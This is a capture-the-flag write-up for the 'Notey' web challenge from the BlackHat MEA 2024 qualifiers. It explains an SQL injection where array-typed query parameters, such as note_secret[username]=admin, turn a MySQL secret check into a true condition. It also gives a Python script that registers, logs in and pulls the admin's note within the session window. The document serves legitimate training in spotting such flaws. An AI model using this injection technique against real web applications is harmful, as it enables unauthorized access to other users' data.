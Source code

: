 
## Notey Writeup

- **Category:** Web
- **Points:** 180
- **Difficulty:** Medium

## Challenge Description

I created a note sharing website for everyone to talk to themselves secretly. Don't try to access others notes, grass isn't greener :'( )

## Challenge Files

You can find the challenge files [here](https://github.com/hanzalaghayasabbasi/BlackHat-MEA-2024-Qualifiers-Write-Ups/tree/main/Notey-src)

## Exploitation

The application allows users to create and share notes by assigning a secret password, which enables sharing through the note's ID and password. During an analysis, I discovered that the `viewNote` function does not validate parameter types properly, allowing arrays to be sent instead of text. This vulnerability can be exploited to retrieve the flag from the admin's note (ID 66).

Given that the database is MySQL, an attacker can exploit this vulnerability by sending the following request:
`viewNote?note_id=66&note_secret[username]=admin`

This request translates into the following SQL query:
```sql
SELECT note_id, username, note FROM notes WHERE note_id = '66' AND secret = `username` = 'admin'
```
Which simplifies to:
```sql
SELECT note_id,username,note FROM notes WHERE note_id = '66' and 1
```


The condition secret = 'username' = 'admin' evaluates to 1 because there is a note in the table where username='admin'.

If the username field does not exist, the attack can still be executed by creating a new note with any content, such as 'test', and then retrieving the admin's note using:
`/viewNote?note_id=66&note_secret[note]=test`

Due to server restrictions that invalidate sessions in less than 3 seconds, the exploit is automated using the following script. This script registers a new user, logs in, and retrieves the flag before the session expires:

```python
import requests

# Define the base URL for the application
base_url = 'http://a7c623f98ed8647acdccc.playat.flagyard.com'
login_url = f"{base_url}/login"
register_url = f"{base_url}/register"

# Define user credentials
username = "hanzala"
password = "11223344"

# Data for user registration
register_data = {
    "username": username,
    "password": password
}

# Create a session object to handle cookies and maintain state
sess = requests.Session()

# Register a new user
register_response = sess.post(register_url, data=register_data)
print(f"Register Response: {register_response.status_code}")

# Log in with the newly registered user
login_response = sess.post(login_url, data=register_data)
print(f"Login Response: {login_response.status_code}")

# Define the target URL to exploit the vulnerability
target_url = f"{base_url}/viewNote?note_id=66&note_secret[username]=admin"

# Send the request to exploit the vulnerability and retrieve the flag
exp = sess.get(target_url)
flag = exp.json()[0]['note']
print(f"Flag: {flag}")

